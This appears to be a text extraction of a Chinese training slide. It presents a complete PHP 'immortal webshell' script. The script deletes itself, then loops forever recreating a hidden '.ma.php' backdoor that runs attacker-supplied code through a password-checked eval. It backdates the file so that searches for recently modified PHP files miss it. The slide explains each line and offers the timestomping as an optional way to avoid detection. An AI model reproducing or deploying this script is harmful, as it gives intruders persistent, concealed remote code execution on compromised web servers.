

1
不 死 马 脚 本
<?php  ignore_user_abort(true);  set_time_limit(0);  unlink( FILE );
$file = './.ma.php';
$code = '<?php if(md5($_POST["pass"])=="c4ca4238a0b923820dcc509a6f75849b"){@eval($_POST[a]);} ?>';  while (1){
file_put_contents($file,$code);
system('touch -m -d "2017-11-17 15:20:54" .ma.php');
usleep(5000);
}
?>
ignore_user_abort(true);
函数设置与客户机断开是否会终止脚本的执行。这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行。

set_time_limit()
函数设置脚本最大执行时间。这里设置为0，即没有时间方面的限制。
unlink( 	FILE 	)
删除文件本身，以起到隐蔽自身的作用。while

循环内每隔usleep(5000)微秒一微秒等于一百万分之一秒即写新的后门文件
system()
执行的命令用于修改文件的创建或修改时间，可以绕过“find –name '*.php' –
•
mmin -10”命令检测最近10分钟修改或新创建的PHP文件，但不一定有用，可选。